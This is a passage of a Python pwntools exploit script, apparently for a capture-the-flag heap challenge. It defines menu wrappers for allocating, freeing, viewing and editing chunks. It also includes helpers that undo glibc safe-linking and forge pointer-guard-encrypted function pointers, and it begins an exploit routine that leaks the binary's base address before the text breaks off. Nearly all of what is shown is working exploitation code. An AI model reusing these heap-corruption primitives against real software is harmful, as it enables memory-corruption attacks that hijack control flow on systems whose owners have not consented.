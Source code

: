 ```python
    log.info(f'MALLOC[{idx}]({size})')
    io.sendline(b'1')
    sleep(0.1)
    io.sendlineafter(b'Where?', str(idx).encode())
    sleep(0.1)
    io.sendlineafter(b'size?', str(size).encode())

def free(idx):
    log.info(f'FREE[{idx}]')
    io.sendline(b'2')
    sleep(0.1)
    io.sendlineafter(b'Where?', str(idx).encode())

def view(idx):
    log.info(f'VIEW[{idx}]')
    io.sendline(b'3')
    sleep(0.1)
    io.sendlineafter(b'Where?', str(idx).encode())

def edit(idx, data):
    log.info(f'EDIT[{idx}]')
    io.sendline(b'4')
    sleep(0.2)
    io.sendlineafter(b'Where?', str(idx).encode())
    io.sendafter(b'edit is', data)

def demangle(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

# Rotate left: 0b1001 --> 0b0011
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

# encrypt a function pointer
def encrypt(v, key):
    return rol(v ^ key, 0x11, 64)

def exploit():
    global io
    io = initialize()

    # ===============
    # ELF BASE LEAK
    # ===============
    io.sendline(b'7')
    io.recvuntil(b'0x')
    win = int(io.recvline().strip(), 16) 
    elf.address = win - 0x159f

```